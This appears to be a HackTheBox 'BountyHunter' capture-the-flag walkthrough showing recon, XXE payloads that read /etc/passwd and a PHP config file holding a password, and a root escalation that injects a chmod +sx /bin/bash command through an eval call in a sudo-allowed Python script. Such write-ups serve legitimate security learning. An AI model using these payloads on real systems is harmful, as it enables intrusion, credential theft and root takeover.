 # HACKTHEBOX: BountyHunter

## Recon and Enumeration
Starting off with an nmap scan, we're find SSH and HTTP running on the box.
![nmap](screenshots/nmap.png)

Explore the site, and you'll find a PHP form.
![webapp](screenshots/webapp_home.png)
![portal](screenshots/webapp_portal.png)
![logsubmit](screenshots/webapp_logsubmit.png)

Since the site uses PHP, run a ffuf scan to search for PHP files. We find `index.php` (we've already found that), `portal.php` (we've found that too), and `db.php` (this is new!). Unfortunately, we can't actually view this php file via web browser.
![ffuf](screenshots/ffuf.png)

If we go back to `portal.php` and submit the form, we find that the input is XML data.
![data encoded](screenshots/data_encoded.png)
![data decoded](screenshots/data_decoded.png)

Since the site accepts XML input, lets test for an XXE vulnerability using the following payload to retrieve `/etc/passwd`:
```
<?xml  version="1.0" encoding="ISO-8859-1"?>
     <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    <bugreport>
        <title>&xxe;</title>
        <cwe>alter_cwe</cwe>
        <cvss>alter_score</cvss>
        <reward>alter_reward</reward>
    </bugreport>
```
Sure enough, we get the contents of `/etc/passwd` and XXE is confirmed. Note that the user `development` has a home directory and uses bash.
![passwd](screenshots/etc_passwd.png)

## Exploitation and user.txt
We can exploit the XXE vulnerability to read the `db.php file`. After a quick google search on how to read PHP files via XXE, we can craft the following payload to get the base64 encoded content of `db.php`:
```
<?xml  version="1.0" encoding="ISO-8859-1"?>
     <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/conver.base64-encode/resource=db.php"> ]>
    <bugreport>
        <title>&xxe;</title>
        <cwe>alter_cwe</cwe>
        <cvss>alter_score</cvss>
        <reward>alter_reward</reward>
    </bugreport>
```
![payload](screenshots/payload.png)
![db creds](screenshots/db_creds.png)

Doing so reveals the password `m19RoAU0hP41A1sTsq6K`. Use this password to log in as `development`
![user.txt](screenshots/user.png)

## Privilege Escalation and root.txt
List the commands the user is allowed to run as root with the command `sudo -l`. The user `development` may run the command `sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py` without a password.
![sudo -l](screenshots/sudo_list.png)

View the contents of `/opt/skytrain_inc/ticketValidator.py` and find the path to privilege escalation. It accepts input of a file that needs to be formatted a very specific way. The code also calls the `eval` function, which accepts a string, which parsed and executed as a python expression. If we can manipulate `x.replace(**, "")`, then we will  be able to execute arbitrary python commands as root.
![skytrain](screenshots/skytrain.png)

The following payload passes the input validation and injects `__import__('os').system('chmod +sx /bin/bash')`, which sets the suid bit, allowing us to run `/bin/bash` as root
```
# Skytrain Inc
## Ticket to hackthebox
__Ticket Code:__
**4+__import__('os').system('chmod +sx /bin/bash')
```

Run the python script, and execute `/bin/bash -p`
![privesc](screenshots/privesc.gif)
